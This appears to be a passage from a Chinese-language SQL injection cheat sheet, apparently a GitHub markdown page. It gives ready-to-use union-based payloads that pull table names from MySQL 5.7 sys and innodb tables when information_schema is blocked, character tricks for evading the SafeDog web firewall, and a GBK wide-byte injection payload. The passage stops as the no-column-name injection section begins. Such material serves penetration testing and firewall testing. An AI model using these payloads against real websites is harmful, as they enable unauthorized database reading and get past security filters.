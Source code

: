 **绕过information_schema**
**MySQL5.7的新特性：**

```sql
sys.schema_auto_increment_columns   只显示有自增的表
?id=-1' union all select 1,2,group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database()--+

sys.schema_table_statistics_with_buffer
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+

mysql.innodb_table_stats
?id=-1' union select 1,(select group_concat(table_name) from mysql.innodb_table_stats),3--+

sys.x$schema_table_statistics_with_buffer
?id=-1' union select 1,2,group_concat(table_name)from sys.x$schema_table_statistics_with_buffer where table_schema=database()--+

sys.x$schema_flattened_keys
?id=-1' union select 1,2,group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()--+

sys.x$ps_schema_table_statistics_io
?id=-1' union select 1,2,group_concat(table_name)from sys.x$ps_schema_table_statistics_io where table_schema=database()--+

sys.schema_table_statistics
```
以上大部分特殊数据库都是在 mysql5.7 以后的版本才有，并且要访问sys数据库需要有相应的权限

但是在使用上面的后两个表来获取表名之后`select group_concat(table_name) from mysql.innodb_table_stats`，我们是没有办法获得列的，这个时候就要采用无列名注入的办法

[聊一聊bypass information_schema](https://www.anquanke.com/post/id/193512)

**绕过安全狗**
sel%ect
针对asp+access：
1. 可以代替空格的字符：%09，%0A，%0C，%0D
2. 截断后面语句的注释符：%00，%16，%22，%27
3. 当%09，%0A，%0C，%0D超过一定的长度，安全狗就失效了

[Fuzz安全狗注入绕过](https://www.cnblogs.com/perl6/p/7076524.html)
[一次实战sql注入绕狗](https://xz.aliyun.com/t/7515)

#### 奇淫巧技
**宽字节注入**
在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字
`%df` 吃掉`\`具体的方法是 `urlencode('\') = %5c%27`，我们在`%5c%27`前面添加`%df`，形成`%df%5c%27`，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，`%df%5c`就是一个汉字，`%27`作为一个单独的`'`符号在外面
```sql
-1%df%27union select 1,user(),3--+
```
**无列名注入**
我们可以利用`union`来给未知列名重命名
